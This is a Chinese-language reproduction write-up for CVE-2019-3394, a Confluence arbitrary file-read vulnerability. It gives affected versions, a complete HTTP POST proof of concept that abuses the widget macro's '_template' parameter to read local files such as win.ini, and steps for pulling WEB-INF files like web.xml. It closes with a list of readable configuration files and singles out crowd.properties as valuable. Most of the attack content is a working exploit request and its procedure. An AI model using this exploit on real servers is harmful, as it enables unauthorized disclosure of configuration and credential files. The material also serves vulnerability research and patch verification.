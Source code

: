 # CVE-2019-3394 Confluence 文件读取漏洞

## 一、漏洞简介

（CVE-2019-3394）Confluence 文件读取漏洞

## 二、影响范围

* 6.1.0 <= version < 6.6.16
* 6.7.0 <= version < 6.13.7
* 6.14.0 <= version < 6.15.8

## 三、复现过程

poc


```bash
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close

{"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}}
```

**触发条件**

* 一个有效的登录账号
* 该账号具有在空间「添加页面」的权限

**复现步骤**

1.创建一个空白页   

![](images/15889491242928.png)


2.插入一张网络图片

![](images/15889491314984.png)


![](images/15889491358969.png)


插入url改为你需要查看的文件，例如 `/packages/../web.xml`

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![](images/15889491570204.png)


5.查看页面源码确认修改成功

![](images/15889491641690.png)


6.导出word，并抓包查看

![](images/15889491714921.png)


![](images/15889491758593.png)


路径说明

由于 `catalina.jar`中的 `org.apache.catalina.webresources.StandardRoot.class`的 getResource方法的 validate存在过滤和限制，所以可遍历路径均在` /WEB-INF`下

可读取的文件大致如下


```
#WEB-INF下
decorators.xml
glue-config.xml
server-config.wsdd
sitemesh.xml
urlrewrite.xml
web.xml
#/WEB-INF/classes下
confluence-filtered-frames.properties
confluence-init.properties
crowd.properties(较为重要)
hash-registry.properties
lgplTemplate.soy
log4j-diagnostic.properties
log4j.properties
logging.properties
mime.types
osuser.xml
seraph-config.xml
seraph-paths.xml
velocity_implicit.vm
velocity.properties
```